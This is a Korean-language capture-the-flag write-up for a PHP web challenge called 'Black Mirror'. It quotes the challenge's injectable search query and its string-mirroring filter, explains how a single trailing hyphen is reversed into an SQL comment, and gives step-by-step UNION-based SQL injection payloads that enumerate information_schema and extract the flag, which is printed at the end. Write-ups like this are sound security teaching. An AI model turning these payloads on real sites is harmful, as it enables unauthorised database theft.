







# Black Mirror


## Challenge
```
I'm a big fan of black mirror.
Note: Make sure to check the comments of homepage!

https://blackmirror-chall.fmc.tf
```

## Write-Up
문제에 나와있는 URL을 접속하면 다음과 같이 Black Mirror 에피소드를 검색할 수 있는 페이지가 나옵니다.



해당 페이지의 소스코드를 살펴보면, 주석에 `?view-source` 가 작성된 것을 확인할 수 있습니다.



이를 통해 URL 파라미터 `view-source` 를 같이 전달하여 요청하였고, 그 결과 다음과 같이 해당 페이지의 PHP 소스코드를 확인할 수 있었습니다.



코드를 살펴보면, URL 파라미터 `query` 에 입력한 값은 함수 `mirrorify` 로 전달되어 그 결과가 SQL 질의문에 포함되어 질의를 수행하는 것을 확인할 수 있습니다.

```php
$db = dbconnect();
if (isset($_GET["query"]) && is_string($_GET["query"])) {
    $mirrorified = mirrorify($_GET["query"]);
    $sql = "SELECT * FROM series WHERE name LIKE (\"%${mirrorified}%\")";
    $result = mysqli_query($db, $sql);
    $episodes = mysqli_fetch_all($result);
} else {
    $result = mysqli_query($db, "SELECT * FROM series");
    $episodes = mysqli_fetch_all($result);
}
```

즉, 사용자가 입력한 데이터가 데이터베이스 질의문에 그대로 전달되므로 SQL Injection 취약점을 이용하여 푸는 문제로 보입니다.

다만, 사용자가 입력한 URL 파라미터 `query` 의 값은 함수 `mirrorify` 로 전달되는데, 해당 함수는 주석 문자(`--`, `#`)를 `?` 로 변환하고 대괄호(`[]`), 중괄호(`{}`), 소괄호(`()`), 부등호(`<>`) 등의 괄호 문자들을 서로 반대되는 괄호로 변환한 뒤, 원본 문자열과 변환된 문자열을 뒤집어서 붙이는 작업을 수행합니다.

```php
function mirrorify($query) {
    $s_query = str_replace(["--", "#"], "?", $query);
    $trans = [
        "(" => ")", ")" => "(",
        "<" => ">", ">" => "<",
        "[" => "]", "]" => "[",
        "{" => "}", "}" => "{",
    ];
    $m_query = strtr($s_query, $trans);
    return $s_query . strrev($m_query);
}
```

예를 들어, URL 파라미터 `query` 에 `ABCD%")#` 를 전달할 경우 쿼리는 다음과 같이 변경됩니다.

1. 입력 값: `ABCD%")#` 
2. 주석 문자(`#`)을 `?` 문자로 변경 → `ABCD%")?`
3. 괄호 문자(`)`)를 반대 괄호(`(`)로 변경 → `ABCD%"(?` 
4. 2번 값(`ABCD%")?`)과 뒤집어진 3번 값(`?("%DCBA`)을 붙이기 → `ABCD%")??("%DCBA`

이를 통해 다음과 같은 질의문이 만들어집니다.

```sql
--// ABCD%") 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%ABCD%")??("%DCBA%")
```

이러한 특징을 이용하여 SQL Injection 취약점을 발생 시키기 위해 주석 문자 `--` 를 이용했습니다.

함수 `mirrorify` 에서는 주석 문자 `--` 를 `?` 로 변환하고 있지만, 하나의 하이픈 문자(`-`)를 맨 끝에 삽입할 경우 이를 뒤집어서 붙이기 때문에 `--` 문자가 만들어집니다.

예를 들어, `") -`를 전달하면 SQL 질의문은 아래와 같이 생성됩니다. 이때 질의문 끝의 `("%")`는 주석 문자 `--`에 의해 무시되어 정상적인 SQL 질의가 가능해집니다.

```sql
--// ") - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") -- ("%")
```

이를 이용하여 다음의 과정을 통해 플래그를 획득할 수 있었습니다.

### 1️⃣ UNION 구문으로 조회되는 컬럼 위치 식별

페이로드 `?query=") AND 1=2 UNION SELECT 1,2,3,4 -` 를 요청할 경우 질의문은 아래처럼 완성됩니다.

```sql
--// ") AND 1=2 UNION SELECT 1,2,3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,2,3,4 -- 4,3,2,1 TCELES NOINU 2=1 DNA ("%")
```



즉, `UNION` 구문을 통해 페이지에서 2번째, 3번째 컬럼 값이 조회되는 것을 확인할 수 있습니다. 이후 해당 컬럼 위치에 서브쿼리를 삽입하여 플래그를 획득하면 됩니다.

### 2️⃣ 테이블 조회

테이블 조회는 `SELECT table_name FROM information_schema.tables LIMIT 1` 질의문을 이용하여 `LIMIT` 의 값을 증가하는 방식으로 테이블 정보를 획득하였습니다.

그 결과, `?query=") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 -` 를 요청하면 아래와 같이 SQL 질의문이 완성되며, 플래그가 저장되어있는 테이블 명을 확인할 수 있습니다.

```sql
--// ") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT table_name FROM information_schema.tables LIMIT 1),3,4 -- 4,3,(1 TIMIL selbat.amehcs_noitamrofni MORF eman_elbat TCELES),1 TCELES NOINU 2=1 DNA ("%")
```



### 3️⃣ 컬럼 조회

테이블 명이 `FLAG_bc740136d60b25a2c5c305b8` 인 것을 확인 했고, 이어서 컬럼명을 조회하기 위해 `SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1`  질의문을 이용했습니다.

이는 URL `?query=") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 -` 로 완성됩니다.

```sql
--// ") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 - 를 전달한 경우
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name="FLAG_bc740136d60b25a2c5c305b8" LIMIT 1),3,4 -- 4,3,(1 TIMIL "8b503c5c2a52b06d631047cb_GALF"=eman_elbat EREHW snmuloc.amehcs_noitamrofni MORF eman_nmuloc TCELES),1 TCELES NOINU 2=1 DNA ("%")
```



### 4️⃣ 플래그 조회

플래그가 담긴 위치는 테이블 명이 `FLAG_bc740136d60b25a2c5c305b8` 이고, 컬럼이 `flag` 라는 것을 확인했으니, `SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8` 질의문을 이용하면 플래그 획득이 가능합니다.

이는 URL `?query=") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8),3,4 -` 를 전달하면 되고, 완성되는 SQL 질의문은 다음과 같습니다.

```sql
--//?query=") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8),3,4 -
SELECT * FROM series WHERE name LIKE ("%") AND 1=2 UNION SELECT 1,(SELECT flag FROM FLAG_bc740136d60b25a2c5c305b8 LIMIT 1),3,4 -- 4,3,(1 TIMIL 8b503c5c2a52b06d631047cb_GALF MORF galf TCELES),1 TCELES NOINU 2=1 DNA ("%")
```



결과적으로, 방금 요청한 URL을 통해 플래그가 페이지에 출력되는 것을 확인할 수 있었습니다.

```sql
FMCTF{674fc2c4d20858e922d14fff640a65f2}	
```